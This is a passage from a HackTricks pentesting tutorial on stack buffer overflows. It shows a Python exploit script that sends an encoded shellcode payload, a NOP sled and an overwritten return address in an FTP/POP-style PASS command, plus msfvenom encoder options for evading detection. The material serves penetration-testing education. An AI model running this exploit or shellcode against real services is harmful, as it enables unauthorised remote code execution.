 ```bash
"\x89\x9e\x7a\x2e\xb6\xc0\x24\x8f\x12\x8b\xc9\xc4\x2e\xd6\x85"
"\x29\x03\xe8\x55\x26\x14\x9b\x67\xe9\x8e\x33\xc4\x62\x09\xc4"
"\x2b\x59\xed\x5a\xd2\x62\x0e\x73\x11\x36\x5e\xeb\xb0\x37\x35"
"\xeb\x3d\xe2\x9a\xbb\x91\x5d\x5b\x6b\x52\x0e\x33\x61\x5d\x71"
"\x23\x8a\xb7\x1a\xce\x71\x50\x2f\x04\x79\x89\x47\x18\x79\xd8"
"\xcb\x95\x9f\xb0\xe3\xf3\x08\x2d\x9d\x59\xc2\xcc\x62\x74\xaf"
"\xcf\xe9\x7b\x50\x81\x19\xf1\x42\x76\xea\x4c\x38\xd1\xf5\x7a"
"\x54\xbd\x64\xe1\xa4\xc8\x94\xbe\xf3\x9d\x6b\xb7\x91\x33\xd5"
"\x61\x87\xc9\x83\x4a\x03\x16\x70\x54\x8a\xdb\xcc\x72\x9c\x25"
"\xcc\x3e\xc8\xf9\x9b\xe8\xa6\xbf\x75\x5b\x10\x16\x29\x35\xf4"
"\xef\x01\x86\x82\xef\x4f\x70\x6a\x41\x26\xc5\x95\x6e\xae\xc1"
"\xee\x92\x4e\x2d\x25\x17\x7e\x64\x67\x3e\x17\x21\xf2\x02\x7a"
"\xd2\x29\x40\x83\x51\xdb\x39\x70\x49\xae\x3c\x3c\xcd\x43\x4d"
"\x2d\xb8\x63\xe2\x4e\xe9"
)

buffer = 'A' * 2606 + '\x8f\x35\x4a\x5f' + "\x90" * 8 + shellcode
try:
    print "\nLaunching exploit..."
    s.connect((ip, port))
    data = s.recv(1024)
    s.send('USER username' +'\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nFinished!."
except:
    print "Could not connect to "+ip+":"+port
```

{% hint style="warning" %}
There are shellcodes that will **overwrite themselves**, therefore it's important to always add some NOPs before the shellcode
{% endhint %}

## Improving the shellcode

Add this parameters:

```
EXITFUNC=thread -e x86/shikata_ga_nai
```

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
